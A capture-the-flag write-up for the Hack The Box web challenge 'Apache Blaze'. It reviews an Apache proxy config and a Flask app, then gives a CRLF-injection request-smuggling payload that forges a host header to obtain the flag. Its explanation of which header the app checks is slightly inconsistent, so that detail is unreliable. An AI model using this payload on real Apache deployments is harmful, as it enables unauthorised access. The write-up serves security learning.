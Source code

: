 ```yaml
---
title: Apache blaze - Hack The Box
date: 2024-12-09
---
```


<script setup>
    import ChallengeCard from "../../../../../.vitepress/components/ChallengeCard.vue";
</script>

# Apache Blaze

![Apache Blaze - thumbnail](/ctf/hack-the-box/challenges/web/apache-blaze/thumbnail.gif){width=250px height=100px style="display: block; margin: 0 auto"}

## Challenge description

Step into the ApacheBlaze universe, a world of arcade clicky games. Rumor has it that by playing certain games, you have
the chance to win a grand prize. However, before you can dive into the fun, you'll need to crack a puzzle.

## Challenge overview

This challenge presents a web application that acts as a front-end for various arcade games. The application proxies
requests to a back-end server, which hosts the games. To access the games, users must provide the game name as a query
parameter.

![Apache Blaze - Overview](/ctf/hack-the-box/challenges/web/apache-blaze/overview.png)

## Code Review

### Apache Configuration (`httpd.conf`)

  ```apache
  RewriteRule "^/api/games/(.*)" "http://127.0.0.1:8080/?game=$1" [P]
  ProxyPassReverse "/" "http://127.0.0.1:8080:/api/games/"
  ```

The `RewriteRule` directs requests matching `/api/games/(.*)` to the back-end at `http://127.0.0.1:8080/?game=$1`,
with the `[P]` flag indicating proxying. `ProxyPassReverse` adjusts response headers for the client.

### Python Application (`app.py`)

```python
elif game == 'click_topia':
   if request.headers.get('X-Forwarded-Host') == 'dev.apacheblaze.local':
       return jsonify({
           'message': f'{app.config["FLAG"]}'
       }), 200
   else:
       return jsonify({
           'message': 'This game is currently available only from dev.apacheblaze.local.'
       }), 200
```

The application checks if the `game` parameter is `'click_topia'` and if the `X-Forwarded-Host` header equals
`'dev.apacheblaze.local'`. If both conditions are met, it returns a JSON response containing the flag.

### Vulnerability Analysis

The vulnerability arises from the interaction between `mod_rewrite` and `mod_proxy` in Apache, which can lead to HTTP
request smuggling. Specifically, improper input validation allows crafted requests to manipulate headers, causing the
back-end to misinterpret the request.

## Exploitation Steps

1. **Craft Malicious Request:**

   To exploit this, send a request that injects a newline (`%0d%0a`) to split headers, effectively smuggling a second
   request:

   ```
   GET /api/games/click_topia%20HTTP/1.1%0d%0aHost:%20dev.apacheblaze.local%0d%0a%0d%0aGET%20/ HTTP/1.1
   ```

   This payload manipulates the request such that the front-end server interprets it as a single request, while the
   back-end sees two separate requests.

2. **Server Interpretation:**

    - **Front-End:** Processes the request up to the injected newline, treating it as a complete request.
    - **Back-End:** Interprets the portion after the newline as a new request with the `Host` header set to
      `dev.apacheblaze.local`.

3. **Flag Retrieval:**

   The back-end application, seeing the `Host` header as `dev.apacheblaze.local` and the `game` parameter as
   `click_topia`, returns the flag in its response:

   ```json
   {
       "message": "HTB{f4k3_fl4g_f0r_t3st1ng}"
   }
   ```

With the fake flag retrieved, we can use the same technique to get the real flag on the HTB server.

<ChallengeCard
    challengeType="web"
    challengeName="ApacheBlaze"
    htbCardLink="https://www.hackthebox.com/achievement/challenge/585215/546"
/>

## References

- [HTTP Request Smuggling - PortSwigger](https://portswigger.net/web-security/request-smuggling)
- [CVE-2023-25690 Proof of Concept](https://github.com/dhmosfunk/CVE-2023-25690-POC)
- [Apache HTTP Server Vulnerabilities](https://httpd.apache.org/security/vulnerabilities_24.html)